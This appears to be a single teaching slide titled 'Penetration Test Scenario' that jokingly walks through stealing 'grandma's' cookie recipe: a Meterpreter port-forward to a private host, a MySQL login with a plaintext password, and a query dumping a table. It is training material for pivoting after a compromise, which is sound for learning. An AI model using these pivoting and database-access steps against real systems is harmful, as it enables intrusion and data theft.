

# Penetration Test Scenario
# port forward local port 3306 (mysql) to grandma’s remote machine to 127.0.0.1:3306
meterpreter > portfwd add -l 3306 -p 3306 -r 192.168.30.16
[*] Local TCP relay created: :3306 <-> 192.168.30.16:3306
# connect to grandma’s database server
mysql –host=127.0.0.1 –u grandma –p ‘c00kies’
# steal cookie recipe
SELECT * FROM Recipes;